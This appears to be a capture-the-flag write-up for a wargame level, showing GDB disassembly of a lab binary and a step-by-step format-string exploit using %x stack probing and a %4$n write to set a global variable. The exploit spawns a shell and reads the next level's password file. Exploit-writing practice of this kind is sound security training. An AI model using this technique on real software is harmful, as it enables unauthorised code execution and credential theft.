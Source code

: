 # Level3

First step - testing the program

	$ ./level3
	coucou
	coucou

The program wait an input and print it

Start it in GDB

	(gdb-peda)$ pdisas main
	Dump of assembler code for function main:
	   0x0804851a <+0>:	push   ebp
	   0x0804851b <+1>:	mov    ebp,esp
	   0x0804851d <+3>:	and    esp,0xfffffff0
	   0x08048520 <+6>:	call   0x80484a4 <v>
	   0x08048525 <+11>:	leave
	   0x08048526 <+12>:	ret
	End of assembler dump.

The main call a function "v"

	(gdb-peda)$ pdisas v
	Dump of assembler code for function v:
	   0x080484a4 <+0>:		push   ebp
	   0x080484a5 <+1>:		mov    ebp,esp
	   0x080484a7 <+3>:		sub    esp,0x218
	   0x080484ad <+9>:		mov    eax,ds:0x8049860
	   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
	   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
	   0x080484be <+26>:	lea    eax,[ebp-0x208]
	   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
	   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
	   0x080484cc <+40>:	lea    eax,[ebp-0x208]
	   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
	   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
	   0x080484da <+54>:	mov    eax,ds:0x804988c
	   0x080484df <+59>:	cmp    eax,0x40
	   0x080484e2 <+62>:	jne    0x8048518 <v+116>
	   0x080484e4 <+64>:	mov    eax,ds:0x8049880
	   0x080484e9 <+69>:	mov    edx,eax
	   0x080484eb <+71>:	mov    eax,0x8048600
	   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
	   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
	   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
	   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
	   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
	   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
	   0x08048513 <+111>:	call   0x80483c0 <system@plt>
	   0x08048518 <+116>:	leave
	   0x08048519 <+117>:	ret
	End of assembler dump.

There is a check on a variable "0x804988c" (global variable) for CMP with "64". If the comparaison is good, the program execute "system"

We can get the name of this global variable

	(gdb-peda)$ info variables
	All defined variables:

	Non-debugging symbols:
	...
	0x0804988c  m
	...

The name is "m"

Also, the program use printf without modifier, like this "printf(variable)"

This is insecure, it's a format string. We can exploit it

We can inject some modifier in the buffer for printf

	$ echo "%s" | ./level3
	Segmentation fault (core dumped)

Printf tried to acces to a parameter in the stack and segfault because he tried to access the value of an address on the stack

	$ echo "%x %x %x %x" | ./level3
	200 b7fd1ac0 b7ff37d0 25207825

With "%x", printf get directly the address. We can go up in the stack like this

We need to see in which address our buffer is wrote

	$ echo "BBBB %x %x %x %x %x %x" | ./level3
	BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825

Our buffer "BBBB" is stored in the 4th position in the stack "42424242"

Now, we need to change this address to the address of the "m" variable ("0x804988c" in gdb), for change it after

	$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
	�200 b7fd1ac0 b7ff37d0 804988c

Ok good. Now we will use the modifier "%n" instead of "%x"

"%n" write in the address the number of bytes before

If we do this

	$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %n'" | ./level3

The number will be 4. Because our buffer "\x8c\x98\x04\x08" is 4 bytes

We can write it like this for a better view

	$ python -c "print '\x8c\x98\x04\x08'+'%4$n'" | ./level3

It's choose directly the 4th position and skip the 3 "%x" before

Now we need to write 64 in "m" for pass the condition. So just add 60 more bytes

	$ python -c 'print "\x8c\x98\x04\x08"+"B"*60+"%4$n"' | ./level3
	�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
	Wait what?!

Good! Let's keep stdin open for access the shell

	$ (python -c 'print "\x8c\x98\x04\x08"+"B"*60+"%4$n"'; cat -) | ./level3
	�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
	Wait what?!
	whoami
	level4
	cat ~level4/.pass
